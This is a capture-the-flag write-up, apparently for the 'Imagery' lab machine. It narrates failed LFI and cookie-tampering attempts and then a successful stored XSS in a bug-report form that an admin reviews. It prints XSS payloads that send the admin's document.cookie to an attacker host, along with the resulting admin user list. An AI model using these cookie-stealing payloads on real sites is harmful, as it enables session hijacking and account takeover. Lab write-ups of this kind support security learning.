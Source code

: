 It is sanitizing the name . So no chance of LFI at all . CONFIRMED
Huhh So it is sanitizing the URLs . What to do ????

Lets visit admin users and see what we get . But this is what I get 
**`message "Access denied. Administrator privileges required."
`success false`

I was thinking if we can tamper cookies without SECRET_KEY . Is there a chance ? It sound more promising than others

Tried visiting Debbuger and console endpoint also . But no luck here either

Tried LFI through the image viewer. No file leakage; either it's filtered or not reachable
Maybe there is something in view page source I must be missing . 

Got the register endpoint page source . Something’s off . 
Time to trace what it actually does, not what it says

Nope nothing flaw here . Checked the login source as well . Same story, **CLEAN**

Probing the admin endpoint again by setting `isAdmin=true` on login and watch what the server actually returns
Nope , nothing we got from setting isAdmin = true in the login payload

Tried `isAdmin=true` on register . It accepted. Logged in, but `/admin/users` still blocks me . Something’s enforcing checks on server-side.

Checked the file upload in the source . Nothing unusual, probably handled safely as nothing looks juicy.

Did flask-unsign decode , and now trying if I can modify params of decoded cookie and send request to get admin access

Nope that's not possible. It was a failure but it was worth a try.

Thinking if a subdomain in the URL changes behavior . watching how the server resolves it. **NOPE THATS NOT IT**

Oh there is a bug report link which I've missed totally. Here we can do something interesting here . Here we can use title and description field to get XSS attacks and steal sessions . 

But these reports are checked by admin , so admin checks this bug reports constantly . So we can do XSS to get admin cookies . So lets get creative here

```html
<img src=x onerror=“new Image().src=‘http://10.10.14.11:8000/?=‘+encodeURIComponent(document.cookie)">
```

This one failed and I continued to try payloads.

Tried so many XSS payloads , but this one worked finally after lots of tries
**`<img src=x onerror=fetch('http://10.10.14.11:8000/?c='+btoa(document.cookie))>`**

The above fetched me cookie in base64 and I've decoded and navigated to /admin/users by updating cookies in browser . And this is what I got after decoding

```json
{"anyAdminExists":true,
"success":true,
"users":
[{"displayId":"a1b2c3d4","isAdmin":true,"isTestuser":false,"username":"admin@imagery.htb"},{"displayId":"e5f6g7h8","isAdmin":false,"isTestuser":true,"username":"testuser@imagery.htb"}]
}
```

